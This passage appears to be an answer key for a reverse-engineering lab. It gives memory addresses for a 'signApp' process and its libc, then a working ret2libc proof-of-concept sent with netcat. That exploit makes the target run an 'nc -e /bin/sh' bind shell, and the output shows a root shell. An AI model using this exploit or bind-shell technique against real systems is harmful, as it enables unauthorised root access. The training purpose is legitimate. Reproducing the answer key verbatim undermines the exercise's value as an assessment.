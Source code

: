 ```
befdf000-bf000000 rw-p 00000000 00:00 0          [stack]
ffff0000-ffff1000 r-xp 00000000 00:00 0          [vectors]
# 
```

Note that the column to the left of the path represents the inode number, which may vary.  The most important information here is the addresses in the far left column.

***Exercise: What is the virtual memory address of where we can find the data stored in the `message_of_the_day` variable?***

The virtual memory address of the `message_of_the_day` variable is `0x00022070`.

***Exercise: What is the base address for the `libc.so.0` library in the context of the virtual memory address space for the `signApp` process?***

The base address of the `libc.so.0` library is `0xb6f54000`.

***Exercise: What is the virtual memory address of where we can find the `system` function in the `signApp` process?***

The virtual memory address of the `system` function in the `signApp` process is `0xb6f9c074`.

***Exercise: Provide the following items to demonstrate you were able to complete a working proof-of-concept exploit.***

1. ***The text of the command you ran to send your final proof-of-concept attack buffer to the VMS Administrative Interface.***

   ```
   student@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x20\x02\x00AAAA\x74\xc0\xf9\xb6"' | nc 127.0.0.1 5555
   ```

2. ***A screenshot showing the full output you see in the terminal after running the command.***

   The screenshot will show the following output.  Note that the connection is not terminated because the while loop is running (i.e. the call to the `system` function has not returned).

   ```
   student@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x20\x02\x00AAAA\x74\xc0\xf9\xb6"' | nc 127.0.0.1 5555
   The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; done
   
   If you enter the correct password you can change the message of the day.
   
   password: 
   ```

3. ***A screenshot showing the results of running the `id` and `uname -a` commands in your `netcat` shell connection to the VMS.***

   The screenshot will contain the following text for the `id` and `uname -a` commands.  Make sure the output from `uname -a` contains `armv5tejl`.  If it does not the command was run on the Reverse Engineering VM and not the target VMS system.

   ```
   student@revm:~$ nc 127.0.0.1 1337
   id 
   uid=0(root) gid=0(root)
   uname -a
   Linux vms 4.19.16 #1 Sat Aug 17 17:56:07 EDT 2019 armv5tejl GNU/Linux
   ```
